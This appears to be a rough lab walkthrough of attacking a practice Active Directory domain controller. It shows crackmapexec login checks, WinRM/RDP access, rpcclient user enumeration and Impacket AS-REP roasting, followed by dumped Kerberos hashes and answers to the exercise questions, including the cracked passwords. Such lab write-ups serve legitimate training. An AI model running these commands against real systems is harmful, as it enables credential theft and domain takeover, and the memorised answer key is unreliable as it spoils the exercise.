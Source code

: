 Installation for Kali 🐲
Copy
apt update
apt install netexec






curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
apt install pipx git
pipx ensurepath
pipx install poetry
poetry self add "poetry-dynamic-versioning[plugin]"
poetry dynamic-versioning enable





 crackmapexec smb 10.201.3.6


  crackmapexec smb 10.201.3.6
SMB         10.201.3.6   445    CONTROLLER-1     [*] Windows 10.0 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
                    

crackmapexec smb 10.201.3.6 --shares


crackmapexec smb 10.201.3.6 --shares



$ crackmapexec smb 10.201.3.6 -u Administrator -p 'P@$$W0rd'
SMB         10.201.3.6   445    CONTROLLER-1     [*] Windows 10.0 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
SMB         10.201.3.6   445    CONTROLLER-1     [+] CONTROLLER.local\Administrator:P@$$W0rd (Pwn3d!)




 crackmapexec winrm  10.201.3.6 -u Administrator -p 'P@$$W0rd'
SMB         10.201.3.6   5985   CONTROLLER-1     [*] Windows 10.0 Build 17763 (name:CONTROLLER-1) (domain:CONTROLLER.local)
HTTP        10.201.3.6   5985   CONTROLLER-1     [*] http://10.201.3.6:5985/wsman
WINRM       10.201.3.6   5985   CONTROLLER-1     [+] CONTROLLER.local\Administrator:P@$$W0rd (Pwn3d!)




xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.3.6 /u:Administrator /p:'P@$$W0rd'



evil-winrm -i 10.201.3.6 -u Administrator -p 'P@$$W0rd' 




pcclient -U ""  10.201.3.6 -N


rpcclient -U 'Administrator%P@$$W0rd'  10.201.3.6     >  user.txt


└─$ cat userK.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge userK.txt 


rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[Machine1] rid:[0x44f]
user:[Machine2] rid:[0x450]
user:[Admin1] rid:[0x451]
user:[Admin2] rid:[0x452]
user:[User1] rid:[0x453]
user:[User2] rid:[0x454]
user:[SQLService] rid:[0x455]
user:[User3] rid:[0x456]
user:[HTTPService] rid:[0x457]
user:[sshd] rid:[0x458]
rpcclient $> 

pcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
rpcclient $> 



rpcclient $> querygroupmem 0x206
        rid:[0x1f4] attr:[0x7]
        rid:[0x451] attr:[0x7]
        rid:[0x452] attr:[0x7]
        rid:[0x455] attr:[0x7]
rpcclient $> 


rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Tue, 05 Aug 2025 15:27:35 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Mon, 25 May 2020 15:22:39 EDT
        Password can change Time :      Tue, 26 May 2020 15:22:39 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000008
        padding1[0..7]...
        logon_hrs[0..21]..





## Impacket cuenta con una herramienta llamada "GetNPUsers.py" (ubicada en impacket/examples/GetNPUsers.py) que nos permite consultar cuentas ASReproastables desde el Centro de Distribución de Claves. Lo único necesario para consultar las cuentas es un conjunto válido de nombres de usuario que enumeramos previamente mediante Kerbrute.



python3  GetNPUsers.py -usersfile /home/kali/Downloads/kerberos/userK.txt -no-pass CONTROLLER.local/


Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Machine1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Machine2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Admin1 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$Admin2@CONTROLLER.LOCAL:ccd6aa0e219d14f9ff79dd3a7cb6e4fa$acbc76a88368b945f912f56ed7e77a870faea355ab5a2b98d5bff92d62fd8718723114d0f2d94d070bc2c296111ad47b13cc0cfbd17153e215082af5e2470334933681d07fdd40fde2c6707b7e411dd2b33a9951a54dd48660a06b0f8c1ed0622ea62d9ee38d64de1aa4c25138168f6bf5c907feb9e8d38483b735bf112b027bdffa4365b644fac9c52aac4b8809bba29f5e8ddee6065aef1c489ff54326c7864e610df50d6fbc5d7bc901a004f0be94cdcbc979fb849423e0e218b031d7b318d5216de23e8b96fa678b9e468b1b212dc03956324f9150c516ce09a7ff387ab79d29b8d102c5910777443e3ab3f5aae2b189cd6f
[-] User User1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User User2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SQLService doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$User3@CONTROLLER.LOCAL:de68f7ddf0afdefd1da370343fdba3a8$3081a0231cf3b290de4c2ee1722bef56f84d182a3463311a6441e1cfe1db4d788a3275cb4d752a28de8a977466f10e73681c65cfdeefba7b6baf30a3ebb6a50b384bad6e4d2b917afb89a7d79ad90d9745ca7e9403530738a9160c450fb0132dfee20eefbd242530e2783f204404cc84ef2933b80dc7c0b9773ecd9610d5e1aa1627771a17394c3fc74806052b86c1448f69abf79cfb02dfac3c52d168f53e72b363c7aaf9e70bc8b2b520e5b8184542404c821e784f005a312a58a390f7b4f7f0ac9373c444a01ce185efe4fdb777556127490e54c2f5eff5c70cc819d04cefbf86f36526625cba3a30cfaadb6c628e22ddef1f
[-] User HTTPService doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                                                      
┌──(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ 











What hash type does AS-REP Roasting use?

Ans: Kerberos 5 AS-REP etype 23

Which User is vulnerable to AS-REP Roasting?

Ans: User3

What is the User’s Password?

Ans: Password3

Which Admin is vulnerable to AS-REP Roasting?

Ans: Admin2

What is the Admin’s Password?

Ans: P@$$W0rd2